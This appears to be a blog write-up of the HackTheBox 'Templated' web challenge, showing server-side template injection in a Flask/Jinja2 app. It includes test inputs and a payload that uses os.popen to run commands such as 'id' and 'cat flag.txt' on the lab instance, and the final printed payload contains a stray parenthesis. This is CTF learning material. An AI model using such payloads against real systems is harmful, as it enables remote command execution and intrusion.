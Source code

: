 ```yaml
---
title: Templated [WEB][EASY] Writeup
author: Arijit Bhowmick [sys41x4]
date: 2021-03-21 18:32:00 -0500
categories: ["CTF Platform", HackTheBox]
tags: [HackTheBox, Easy, templated, Web, Challenge, writeup, python3, python]
permalink: "/HTB/challenge/web/Templated.html"
---
```


[![HTB Img](/assets/htb/htb-img/htb_logo.jpeg)](http://hackthebox.eu)

### Challenge Description

![Challenge Details](/assets/htb/challenge/web/templated/img/challenge_desc.png)

```
Can you exploit this simple mistake?
```

## SOLUTION

Click on the `Start Instance` button to start the challenge.

Then you are provided with an `web address` in the form of `<ip>:<port>`. Copy it and open it in another tab or browser.
In my case it was `http://46.101.92.17:31311`

### Homepage of the Webapp :

![homepage](/assets/htb/challenge/web/templated/img/homepage.png)


The webapp shows a message 
`Site still under construction`<br>
`Proudly powered by Flask/Jinja2`<br>

Here we can see that it says that it is made with `Flask/Jinja2`.

### Searching exploits for `Flask/Jinja2`:

I have started searching exploits for `Flask/Jinja2`.
Then I came across <br>
1. <a href='https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee' target='_blank'>ssti in flask jinja2</a><br>
2. <a href='https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2' target='_blank'>Server Side Template Injection with jinja2</a>

Here it says about the SSTI exploit.

### Test Exploit :

After modifying the provided url to {% raw %}`http://46.101.92.17:31311/{{41+41}}`{% endraw %}

I have noticed that the returned result evaluates the value.

![test_exploit](/assets/htb/challenge/web/templated/img/test_exploit_1.png)

Then I came across:
![exploit_info_gather](/assets/htb/challenge/web/templated/img/exploit_info_gather.png)

### Creating the exploit:

I have manipulated 
{% raw %}
`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
{% endraw %}<br>
step by step.


![root_id_info](/assets/htb/challenge/web/templated/img/root_id_info.png)

![root_directory_content](/assets/htb/challenge/web/templated/img/root_directory_content.png)

#### EXPLOIT Code:

{% raw %}
```
http://46.101.92.17:31311/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
{% endraw %}

Format:

{% raw %}
```
http://<Web app address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
{% endraw %}
This is how I got the flag.

Just replace `<Web app address>` with the web address that you are provided.
In my case it was `http://46.101.92.17:31311`

![exploit](/assets/htb/challenge/web/templated/img/exploit.png)

This is how, I solved this challenge.

Thankyou, for reading my writeup :)<br>
Hope, I would see you in my next writeup.

<a href="/support/sys41x4">Support Me</a> if you want to.